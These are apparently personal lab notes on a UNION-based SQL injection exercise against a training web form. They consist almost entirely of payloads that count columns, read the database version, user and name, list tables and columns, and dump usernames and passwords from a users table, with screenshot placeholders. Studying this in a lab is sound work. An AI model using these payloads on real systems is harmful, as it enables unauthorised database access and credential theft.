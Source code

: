 Determine number of columns:

```bash
id=1+union+select+null,null#&Submit=Submit
```

![[Pasted image 20241103120936.png]]

Determine database version:

```bash
id=1+union+select+null,@@version#&Submit=Submit
```

![[Pasted image 20241103121125.png]]

Determine username:

```bash
id=1+union+select+null,(select+user())#&Submit=Submit
```

![[Pasted image 20241103121342.png]]

Determine database name:

```bash
id=1+union+select+null,(SELECT+database())#&Submit=Submit
```

![[Pasted image 20241103121454.png]]

Find all tables available within working database:

```bash
id=1+union+select+table_name+,+null+from+information_schema.tables#&Submit=Submit
```

![[Pasted image 20241103121801.png]]

View all table column names:

```bash
id=1+union+all+select+table_name,column_name+from+information_schema.columns#&Submit=Submit
```

![[Pasted image 20241103125019.png]]

View usernames and password:

```bash
id=1+UNION+SELECT+user,+password+FROM+users#&Submit=Submit
```

![[Pasted image 20241103125148.png]]
